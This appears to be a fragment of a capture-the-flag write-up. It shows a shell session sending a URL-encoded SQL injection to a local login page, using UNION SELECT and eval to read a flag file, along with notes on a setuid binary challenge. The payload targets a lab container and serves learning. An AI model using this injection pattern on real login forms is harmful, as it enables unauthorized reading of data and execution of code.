 ```
user@dc9342234b40:/app$ curl -X POST http://localhost/login -d "username=bla&password=%27%29%20UNION%20ALL%20SELECT%20%27qpppq%27%7C%7CCOALESCE%28eval%28%22open%28%27%2Fapp%2Fflag%27%29.read%28%29%22%29%2C%27%20%27%29%7C%7C%27qpzxq%27--%20hTfB"
<b>INSUFFICIENT ACCESS FOR USER qpppqBe qu13t, darling. Let pAttern rec0gnition have its w4y.
```

## Bin ¥250

```bash
user@aef4d4aed866:/app$ ls -lah
total 44K
drwxr-xr-x 1 root root 4.0K Feb 29 15:02 .
drwxr-xr-x 1 root root 4.0K Feb 29 15:02 ..
-rw-r--r-- 1 root root  129 Jan 22 23:10 flag
-rw------- 1 root root   64 Jan 22 23:10 key
-rws--x--x 1 root root  20K Feb 27 16:52 main
-r-------- 1 root root 1011 Jan 22 23:10 rmain.py
user@aef4d4aed866:/app$ base64 main
base64: main: Permission denied
user@aef4d4aed866:/app$ ./main
AES256 HSM Tester
USAGE: ./main encrypt [plaintext]
USAGE: ./main load [hex key data]
user@aef4d4aed866:/app$ cat flag
```
Some black box cipher stuff. Will come back to it later.

## Bin ¥500

This one looks horrible, maybe I'll be 1337 enough one day...

